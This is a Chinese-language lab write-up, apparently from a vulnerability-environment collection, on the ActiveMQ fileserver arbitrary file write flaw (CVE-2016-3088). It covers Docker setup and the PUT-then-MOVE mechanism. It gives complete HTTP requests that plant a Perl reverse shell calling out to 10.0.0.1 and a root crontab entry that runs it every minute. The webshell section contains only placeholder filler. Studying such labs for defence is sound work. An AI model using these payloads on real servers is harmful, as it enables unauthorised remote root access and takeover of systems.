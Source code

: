 # ActiveMQ任意文件写入漏洞（CVE-2016-3088）

## 环境搭建

搭建及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境监听61616端口和8161端口，其中8161为web控制台端口，本漏洞就出现在web控制台中。

访问`http://your-ip:8161/`看到web页面，说明环境已成功运行。

## 背景简述

ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。

fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：

1. 其使用率并不高
2. 文件操作容易出现漏洞

所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。

在测试过程中，可以关注ActiveMQ的版本，避免走弯路。

## 漏洞详情

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

文件写入有几种利用方法：

1. 写入webshell
2. 写入cron或ssh key等文件
3. 写入jar或jetty.xml等库和配置文件

写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。

分别说一下上述几种利用方法。

### 写入webshell

啊啊啊

### 写入crontab，自动化弹shell

这是一个比较稳健的方法。首先，将反弹shell的代码写成一个文件，保存成`/tmp/r`：

```
PUT /fileserver/2.txt HTTP/1.1
Host: your-ip:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 219

perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///tmp/r
Host: your-ip:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

如果上述两个请求都返回204了，说明弹shell的脚本已成功写入`/tmp/r`。然后我们再写入cron文件：

```
PUT /fileserver/1.txt HTTP/1.1
Host: your-ip:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 57

*/1 * * * * sh /tmp/r
```

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///var/spool/cron/crontabs/root
Host: your-ip:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

成功反弹shell。